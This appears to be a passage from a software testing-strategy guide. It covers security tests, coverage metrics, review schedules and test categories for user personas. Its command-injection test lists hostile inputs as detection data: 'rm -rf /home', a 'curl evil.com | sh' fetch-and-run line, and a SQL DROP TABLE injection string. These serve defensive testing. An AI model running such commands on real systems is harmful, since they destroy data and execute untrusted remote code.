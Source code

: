 ### Command Injection Prevention
All user input must be validated:
```python
def test_validate_command_dangerous_patterns(self):
    """Test detection of dangerous patterns"""
    dangerous_commands = [
        Command('rm', ['-rf', '/home'], True, False, 'Bad'),
        Command('curl', ['evil.com', '|', 'sh'], True, False, 'Bad'),
    ]
```

### Input Sanitization
Test SQL injection prevention:
```python
def test_sql_injection_prevention(self):
    """Ensure queries are parameterized"""
    malicious_input = "'; DROP TABLE users; --"
    # Should safely handle without executing injection
```

## Continuous Improvement

### Metrics to Track
1. **Code Coverage**: Target >95%
2. **Test Execution Time**: <5 seconds for unit tests
3. **Test Stability**: 0 flaky tests
4. **Bug Discovery Rate**: Tests should find bugs before users

### Regular Reviews
- Weekly: Review coverage reports
- Monthly: Update test scenarios
- Quarterly: Performance benchmark review

## Test Categories by User Persona

### Grandma Rose (Voice-First)
- Voice recognition accuracy
- Clear error messages
- Simple command success

### Maya (ADHD, Speed-Focused)
- Response time <2 seconds
- Minimal distractions
- Quick shortcuts

### Dr. Sarah (Power User)
- Complex command chains
- Batch operations
- Advanced features
